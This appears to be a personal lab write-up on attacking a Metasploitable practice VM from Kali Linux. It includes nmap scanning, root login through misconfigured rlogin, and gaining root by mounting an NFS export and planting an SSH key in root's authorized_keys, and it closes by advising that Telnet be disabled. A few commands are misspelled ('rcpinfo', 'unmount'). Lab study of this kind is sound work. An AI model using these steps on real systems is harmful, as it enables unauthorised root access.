 ## Introduction
---
Working with the Metasploitable virtual machine and testing out different exploits curious on how  to protect against them. 


## Network Scan
----
Depending on your experience or comfort with Kali Linux, you can start with either `Zenmap` or use an `nmap` command directly on the command line to scan the Metasploitable machine for any open ports. 
* Zenmap because of the GUI, but nmap is more robust;
* recommend getting into the habit of using that instead. 
* After a port scan of the Metasploitables IP, the first glaring open port is 23 for Telnet. 

There are a couple exploits utilizing Telnet 

### Ports 512, 513, 514 => r-services misconfigured for remote access 
---
* `.rhosts++` situation. use the `rsh-client` if you are asked for **SSH** install `rsh-client`

run: `rlogin -l root metasploitable_ip`

### Network File System PORT 2049
-----
* needs `rpcbind` and `nfs-common` packages
* run `rcpinfo metasploitable_ip`
* `showmount -e metasploitable_ip`
* Generate an ssh-key, use filesystem access to add it into `authorized_files`
	* `ssh-keygen`
	* `mkdir /tmp/r00t`
	* `mount -t nfs metasploitable_ip:/ /tmp/r00t`
	* `cat /.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys`
	* `unmount /tmp/r00t`
	* `ssh root@metasploitable_ip` 


## Ports 23 and 25 - Telnet and SMTP
---

With Telnet, we can start with something simple; power up `Wireshark` on your Kali machine. You need to pick a network that you want to capture the network traffic on so pick the one that the Metasploitable machine is running. 

* With Wireshark running, Telnet to the Metasploitable machine from your Kali root command line. 

* The next exploit that uses Telnet involves port 25 for SMTP. 

There is a reason why no one uses Telnet anymore and the exploits above are just a few examples why - the best way to mitigate this is to disable Telnet (if it was a real server, use SSH/SSHFS ). 
This will be done by going into `/etc/inetd.conf` and commenting out the Telnet line, and restarting the machine.
